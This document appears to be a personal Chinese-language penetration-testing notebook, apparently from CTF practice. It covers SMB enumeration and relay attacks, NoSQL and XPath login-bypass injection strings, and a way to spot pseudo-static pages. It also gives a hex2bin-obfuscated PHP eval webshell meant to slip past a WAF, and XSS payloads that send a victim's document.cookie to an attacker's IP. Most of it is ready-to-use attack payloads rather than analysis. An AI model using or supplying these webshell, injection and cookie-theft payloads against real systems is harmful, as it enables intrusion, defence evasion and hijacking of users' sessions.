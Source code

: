 # 一些不成体系的记录

这里记着一些不成体系的知识点，只是一些随手记录，等待之后再去实验单独开文

### smb枚举&&连接

枚举：smbmap -H 192.168.61.32

    crackmapexec smb 10.10.11.174

连接：smbclient //192.168.61.194/wave

    smbclient -L  //10.10.11.152/

smb共享 scf （shell command file）文件攻击：

[https://www.freebuf.com/articles/web/291348.html](https://www.freebuf.com/articles/web/291348.html)

1.通过NTLM 捕获进行smb攻击

2.利用msf 框架直接攻击获取shell

exploit/windows/smb/smb_relay

3。上传payload获取shell

responder 工具

[https://www.freebuf.com/articles/network/256844.html](https://www.freebuf.com/articles/network/256844.html)

### nosql （也是登录框中偶尔会遇见）

nosqlpayload

绕过：

admin' || '' === '

一般的nosql查询语句

this.username === '${value}' && this.password === '${value}'

this.username === 'admin' || '' === '' && this.password === 'value'

使用nosql 注入的检测工具 nosqli 可以检测是否有nosql注入漏洞（实测好像会误报不行）

### XPATH 注入

[XPATH注入学习 - 先知社区 (ali yun.com)](https://xz.aliyun.com/t/7791)

类似于sql注入中的

**'or '1'='1的paylaod**

Xpath : `']|//*|//*['`  该payload 用于访问xml文档的所有节点

可能的查询语句

`$query="user/username[@name='".$user."']";`

$result=$xml_>xpath(*/heroes/hero[login=‘"."’ and password=‘"."’)；

构造

`user1' or 1=1 or ''='`

组合成

`$query="user/username[@name='user1' or 1=1 or ''='']";`

可以匹配当前节点下所有user

Xpath注入的登录绕过

payload `' or '1'='1' or '`payload （类似于mysql的万能密码）这个是可以不用输入密 码的

1'or '1'='1  这个是要输入密码的

### 伪静态页面识别

html页面感觉是伪静态的

 F12，输入

  javascript:alert(document.lastModified)

查看页面最后的修改时间，如果得到的时间和现在时间一致，就是伪静态页面

### 简单绕过waf的一句话处理hex2bin

hex2bin 是php内的函数
一句话用hex2bin编码。蚁剑也修改下成hex编码器。base64这些因为都在宝塔特征库里可能需要编码好几遍才过这里hex2bin一次就行

```
<?=ok;$b= 'echo "111"';function c(){return 'EvAl/**/{\hex2bin($GLOBALS["_POST"]["a"]));';}}$b=c();EvAl/**/($b);?>
```

* **`<?=ok;`** ：这部分是短标签形式的 PHP 语法，输出 `ok`。如果短标签在 PHP 配置中被禁用，这行代码不会输出任何内容。
* **`$b= 'echo "111"';`** ：定义了一个变量 `$b`，它是一个字符串，内容为 `echo "111"`。
* **`function c(){return 'EvAl/**/{\hex2bin($GLOBALS["_POST"]["a"]));';}`** ：定义了一个名为 `c` 的函数，该函数返回一个字符串。这个字符串看起来像是一个 PHP 函数调用，但被故意混淆了。
* **`$b=c();`** ：调用函数 `c()`，将返回的字符串赋值给变量 `$b`。此时，`$b` 的内容变为 `EvAl/**/{\hex2bin($GLOBALS["_POST"]["a"]));`。
* **`EvAl/**/($b);`** ：最后，调用 `EvAl` 函数并传入 `$b` 作为参数。注意，`EvAl` 可能是 `eval` 的一个变体，这意味着它会执行传入的 PHP 代码。

### XSS获取cookie 的简单payload

```
<img src=x onerror=fetch("http://<your_ip>:port/"+document.cookie);>

<script> document.write(' <img src="http://ip:port/?'+document.cookie+'">');</script>

```
